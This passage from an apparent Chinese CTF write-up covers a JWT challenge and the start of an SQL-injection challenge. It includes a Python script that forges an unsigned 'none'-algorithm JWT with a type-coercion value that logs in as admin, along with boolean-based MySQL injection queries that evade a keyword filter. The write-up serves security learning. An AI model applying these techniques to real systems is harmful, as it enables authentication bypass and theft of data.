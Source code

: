 估计是考察 jwt 安全, 首先试试看把加密算法设置为空能不能成功 

先注册一个用户让 secretid 填充到 global.secrets 数组内, 方便后续绕过

然后在 sessionStorage 中查看 token

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191538851.png)

注意一下 `if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0))` 的绕过

javascript 也是一种弱类型语言, 不同类型进行比较时也会有类型转换

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191534910.png)

这里用 0e123 来绕过, 其实用空数组也可以

最后构造 payload

```python
import time
import jwt

info = {'iat': int(time.time()),
    "secretid": "0e123",
    "username": "admin",
    "password": "admin"}

token = jwt.encode(info,key="",algorithm="none")

print(token)
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpYXQiOjE2NjYxNjQ3MzcsInNlY3JldGlkIjoiMGUxMjMiLCJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiJ9.
```

登录, 比较顺利

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191540607.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191541544.png)

查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191541879.png)

## [GYCTF2020]Ezsqli

sql 注入, 过滤了 and or case when if time benchmark 等等

不过注入点是整数型的, 可以直接在 id 处放表达式

本地测试如下

```bash
mysql> select * from users where id=(length(user())=0);
Empty set (0.00 sec)

mysql> select * from users where id=(length(user())<0);
Empty set (0.00 sec)

mysql> select * from users where id=(length(user())>0);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```